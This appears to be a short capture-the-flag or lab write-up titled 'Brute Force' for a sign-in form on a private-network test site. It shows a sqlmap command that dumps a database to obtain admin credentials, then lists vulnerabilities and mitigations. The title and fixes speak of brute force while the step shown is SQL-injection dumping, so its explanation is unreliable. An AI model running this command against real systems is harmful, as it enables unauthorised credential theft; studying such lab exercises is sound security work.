 # Brute Force

It's possible for an attacker to brute force the sign in form

## Table of Contents

- [Steps](#Steps)
- [Vulnerablities](#Vulnerabilities)
- [Ways to secure](#Secure)

### Steps
* Open your terminal
* Run
```bash
sqlmap "http://192.68.0.106/index.php?page=member&id=1&Submit=Submit#" --dump -D Member_Brute_Force
```
You'll receive 2 admin account credentials

* Log in using the credentials
<img src="https://i.imgur.com/OSQQBkT.png" />

#### Vulnerablilities
An attacker can obtain sensitive data such as user passwords or pins in such cases.

##### Ways to secure
Ensure clients use strong complex passwords.
Limit the amount requests a client can create
Setup an endless SSH Honeypot
